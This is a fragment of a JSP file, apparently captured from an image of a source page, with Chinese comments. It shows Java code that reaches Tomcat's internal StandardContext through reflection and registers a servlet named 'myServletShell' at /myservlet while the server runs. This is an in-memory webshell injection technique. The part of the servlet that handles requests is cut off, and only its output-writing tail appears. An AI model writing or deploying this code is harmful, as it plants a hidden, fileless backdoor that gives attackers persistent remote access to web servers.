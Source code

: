 ```bash
                resp.getWriter().write(out);
            } catch (Exception e) {}
        }
    }

    @Override
    public void destroy() {
        super.destroy();
    }
}
%>

<%
    try {
        String myServletname = "myServletShell";

        // 获取应用程序上下文对象 (ApplicationContextFacade)
        ServletContext servletContext = request.getSession().getServletContext();

        if(servletContext.getServletRegistration(myServletname) == null) {
            // 获取 ApplicationContext
            Field applicationContextField = servletContext.getClass().getDeclaredField("context");
            applicationContextField.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

            // 获取 StandardContext
            Field standardConextField = applicationContext.getClass().getDeclaredField("context");
            standardConextField.setAccessible(true);
            StandardContext standardContext = (StandardContext) standardConextField.get(applicationContext);

            // 创建自定义的 servlet
            MyServlet myServlet = new MyServlet();

            // 使用 Wrapper 封装 Servlet
            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName(myServletname);
            wrapper.setServletClass(myServlet.getClass().getName());
            wrapper.setServlet(myServlet);

            // 向 standardContext 中的 child 添加 wrapper
            standardContext.addChild(wrapper);

            // 向 servletMappings 中添加
            standardContext.addServletMappingDecoded("/myservlet", myServletname);
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
```
